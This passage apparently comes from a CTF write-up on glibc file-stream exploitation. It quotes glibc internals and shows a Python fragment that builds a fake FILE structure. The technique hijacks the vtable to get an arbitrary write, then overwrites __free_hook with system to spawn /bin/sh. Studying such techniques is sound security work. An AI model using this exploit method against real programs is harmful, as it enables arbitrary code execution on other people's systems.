 ```cpp=
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
};
```

* I change the `vtable` so that it calls `_IO_read_t` instead of `_IO_write_t ` and set `fp->fd` to `0`(stdin). So i have arbitrary write
* After the read, back to `_IO_new_file_close_it`

```cpp=
_IO_unsave_markers (fp);

  int close_status = ((fp->_flags2 & _IO_FLAGS2_NOCLOSE) == 0
		      ? _IO_SYSCLOSE (fp) : 0);

  /* Free buffer. */
  if (fp->_mode > 0)
    {
      if (_IO_have_wbackup (fp))
	_IO_free_wbackup_area (fp);
      _IO_wsetb (fp, NULL, NULL, 0);
      _IO_wsetg (fp, NULL, NULL, NULL);
      _IO_wsetp (fp, NULL, NULL);
    }
  _IO_setb (fp, NULL, NULL, 0);
  _IO_setg (fp, NULL, NULL, NULL);
  _IO_setp (fp, NULL, NULL);

  _IO_un_link ((struct _IO_FILE_plus *) fp);
  fp->_flags = _IO_MAGIC|CLOSED_FILEBUF_FLAGS;
  fp->_fileno = -1;
  fp->_offset = _IO_pos_BAD;

  return close_status ? close_status : write_status;
```
* `_IO_setb`

```cpp=
void
_IO_setb (FILE *f, char *b, char *eb, int a)
{
  if (f->_IO_buf_base && !(f->_flags & _IO_USER_BUF))
    free (f->_IO_buf_base);
  f->_IO_buf_base = b;
  f->_IO_buf_end = eb;
  if (a)
    f->_flags &= ~_IO_USER_BUF;
  else
    f->_flags |= _IO_USER_BUF;
}
libc_hidden_def (_IO_setb)
```
* We see that it calls `free(f->_IO_buf_base)`. So i just need to write `system` to `__free_hook` and `f->_IO_buf_base` to `/bin/sh`.
* The fake `FILE`
```py=
TARGET = libc.address + 0x3c3750 
overwrite = TARGET - 0x78 # change io_do_write
BUF = 0x3c4120 + libc.address
file = p64(0xfbad0000 | 0x800 | 0x2000 | 0x1000 | 0x8000) + p64(0)*3 + p64(libc.symbols['__free_hook']) + p64(libc.symbols['__free_hook'] + 8) + p64(libc.symbols['environ'] + 8)
```